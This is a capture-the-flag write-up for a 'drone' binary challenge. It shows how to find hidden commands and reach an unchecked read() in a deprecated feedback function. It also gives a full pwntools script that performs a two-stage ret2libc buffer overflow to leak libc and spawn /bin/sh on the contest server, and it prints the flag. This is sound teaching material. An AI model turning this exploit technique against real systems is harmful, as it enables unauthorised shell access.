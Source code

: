 ### Intro
This challenge is a text-based adventure where the user inputs commands to control a drone. While most of these commands have input checks, a sequence of commands will allow the user to access a "deprecated" input feature. This input can be exploited to achieve a buffer overflow, conduct a Return to Libc (Ret2Libc) attack, and execute a shell.

### Finding Commands
The `drone.bin` binary does not give any indication of what the valid commands are, but they can be discovered using `strings`. This also reveals command parameters as well as some indication of what the commands do.
```
<<< Performing %s scan...
Sonar
Radar
Depth
Enter command verb >>> 
Enter command params >>> 
<<< Collecting a sample of %d grams...
<<< Moving %c for %d meters...
<<< Moving arm to position %d..., Current Setting: %d
<<< Entering Diagnostic Mode, arm increased by more than 10.
Please leave your spacesec contact so we can replicate the fault >>> 
<<< Turning the rover by %.2f degrees...
<<< Did not get reason for stopping
Enter reason for stopping >>> 
<<< Rover stopped due to: %s
<<< Recording video for %d seconds...
Disengaging
Engaging
<<< %s the brakes...
<<< Error saving file.
<<< Saved file: %s
Enter filename for the recording >>> 
<<< Warning, did you mean to save with %s extension
Temperature
Humidity
<<< Activating %s sensor...
Pressure
<<< Bug report submitted.
<<< Setting safety mode to %s...
Disabled
Enabled
Leave feedback comments for the developers >>> 
<<< Feedback only available in unSAFE state
<<< Warning: uppercase letters not permitted on SIGN
Re-enter message >>> 
Char[%i]: %c
<<< Displaying message on sign: %s
<<< Setting light intensity to level %c...
<<< %s the claw...
Closing
Opening
Enter resolution (e.g., 720, 1080) >>> 
<<< Camera mode set to %c with resolution %d...
MOVE
BRKS
SCAN
Enter terrain type (e.g., rocky, sandy) >>> 
<<< Moving over %s terrain...
RECD
<<< Invalid sensor type for SENS. Must be 'T', 'H', or 'P'.
<<< Invalid duration for RECD. Must be between 1 and 300 seconds.
LIGH
<<< Turning %c by %.2f degrees...
ARMX
<<< Invalid frequency for TRNS. Must be between 1.0 and 100.0 MHz.
<<< Invalid module for DEPL. Must be 'A', 'B', 'C', or 'D'.
<<< Invalid value for CLAW. Must be 'O' (Open) or 'C' (Close).
<<< Sample size must be an integer not float.
<<< Submitting bug report, attempting to continue
<<< Invalid sample size for SAMP. Must be between 1 and 500 grams.
SIGN
<<< Invalid position for ARMX. Input must be between 1 and 10.
TRNS
<<< Invalid scan type for SCAN. Must be 'R', 'S', or 'D'.
<<< Invalid state for SAFE. Must be 'Y' (Yes) or 'N' (No).
CAMO
<<< Both open and close not permitted simultaneously
Submit bug report (Y|N) >>> 
STOP
<<< Invalid parameters for MOVE. Direction must be 'F' or 'B', and distance must be between 1 and 1000 meters.
Enter light mode (e.g., steady, blinking) >>> 
<<< Light set to %s mode at intensity level %c...
<<< Multi-Mode camera no longer supported, leave feedback if your team needs it.
SAFE
<<< Unknown command: %s
<<< Invalid value for BRKS. You entered %s Must be 'E' (Engage) or 'D' (Disengage).
<<< Submitting bug report
SAMP
<<< Invalid intensity for LIGH. Must be between '1' and '5'.
<<< Invalid mode for CAMO. Must be 'N', 'I', or 'T'.
SENS
<<< Invalid angle for TURN. Must be between -180 and 180 degrees.
DEPL
Enter turn direction (L for left, R for right) >>> 
TURN
CLAW
```

### Decompilation and Analysis
There is no symbol for `main`, but an entry point can be found using Ghidra, which leads to this function which handles command input:
![commands](drone_commands.png)

Only a segment of this function is shown, but the function generally compares user input to a command code (MOVE, STOP, SCAN, etc) and executes code corresponding to that command, which usually involves printing out some flavor text.

Most of the commands are unimportant, but the code for CAMO includes a call to a `deprecated_feedback` function, which is of interest:
![camo](drone_camo.png)

`deprecated_feedback`:
![deprecated](drone_deprecated.png)

This function has a `read` call to a buffer - a good target for buffer overflow. However, the "drone"/program must be in unSAFE mode.

Therefore, the correct command sequence is SAFE to turn off safe mode, and then CAMO to access the unsafe feedback input.
![setup](drone_setup.png)

### Buffer Overflow + Ret2Libc
The idea is to use Libc to execute a shell using the Libc function `system` and its `/bin/sh` string. To get a Libc address, overflow the buffer to pass the address of `puts` GOT entry to `puts` itself, which prints out the runtime address of `puts`.

Since this involves "calling" `puts`, ROP gadgets can be used to set the values of register rdi to properly pass the GOT entry as an argument into `puts`.

First Buffer Overflow:
```
input_buf: padding (pppppppp)
...
input_buf+0x108:  rdi gadget
input_buf+0x110: puts GOT entry address
input_buf+0x118: puts PLT entry address (will call puts)
input_buf+0x120: deprecated_feedback (to setup up a second buffer overflow)
```

After the runtime address of `puts` is calculated, the addresses of `system` and `/bin/sh` can easily be calculated using known Libc offsets from `puts`. Use ROP gadgets to set up a second buffer overflow to execute a shell.

Second Buffer Overflow:
```
input_buf: padding (pppppppp)
...
input_buf+0x108:  rdi gadget
input_buf+0x110: /bin/sh address
input_buf+0x118: ret gadget (for stack alignment)
input_buf+0x120: system() address
```

Overall Script:
```
from pwn import *

context.terminal = ['tmux', 'splitw', '-h']

libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
elf = ELF('./drone.bin')
func = p64(elf.symbols['deprecated_feedback'])
rop = ROP(elf)
pop_rdi = p64(rop.rdi.address)
pop_rdx = p64(rop.rdx.address)
ret_gadget = p64(rop.ret.address)
read_got = p64(elf.got['read'])
atoi_got = p64(elf.got['printf'])
padding = b'p' * 264

p = remote('2024.sunshinectf.games', 24004)
puts_got = p64(elf.got['puts'])
puts_plt = p64(elf.plt['puts'])
# setup
p.recvuntil(b'>>> ')
p.sendline(b'SAFE')
p.recvuntil(b'>>> ')
p.sendline(b'N')
p.recvuntil(b'>>> ')
p.sendline(b'CAMO')
p.recvuntil(b'>>> ')
p.sendline(b'N')
p.recvuntil(b'>>> ')
# first pass
payload = b''.join([padding, pop_rdi, puts_got, puts_plt, func])
p.sendline(payload)
leaked = p.recvline()[:6]
puts_addr = u64(b''.join([leaked, b'\x00\x00']))
#print(hex(puts_addr))
# second pass
system_addr = p64(puts_addr - 0x87bd0 + 0x58740) # use libc addrs
binsh_addr = p64(next(elf.search(b'/bin/sh\0')))
payload = b''.join([padding, pop_rdi, binsh_addr, ret_gadget, system_addr])
p.recvuntil(b'>>> ')
p.sendline(payload)
p.interactive()
```

Launching the exploit:
![win](drone_win.png)

### Flag
sun{drone_Pilot3d_rhrough_th3_cloud5}
